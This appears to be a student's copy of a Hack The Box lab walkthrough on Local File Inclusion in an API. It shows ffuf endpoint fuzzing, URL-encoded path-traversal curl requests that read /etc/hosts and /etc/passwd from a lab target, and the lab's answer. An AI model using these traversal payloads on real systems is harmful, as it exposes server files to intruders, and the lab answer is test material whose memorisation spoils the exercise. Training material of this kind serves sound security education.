 ```yaml
---
sticker: emoji//1f480
---
```

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`. Our [File Inclusion](https://academy.hackthebox.com/module/details/23) module covers LFI in detail.

Let us assess together an API that is vulnerable to Local File Inclusion.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us first interact with it.


```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.

```shell-session
smoothment@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

It looks like `/api/download` is a valid API endpoint. Let us interact with it.

```shell-session
smoothment@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
```

We need to specify a file, but we do not have any knowledge of stored files or their naming scheme. We can try mounting a Local File Inclusion (LFI) attack, though.

```shell-session
smoothment@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

The API is indeed vulnerable to Local File Inclusion!

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250219171803.png)

We can do:

```
curl "http://10.129.27.149:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd"
```

This outputs:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bas
```

Answer is:

```
Ubuntu
```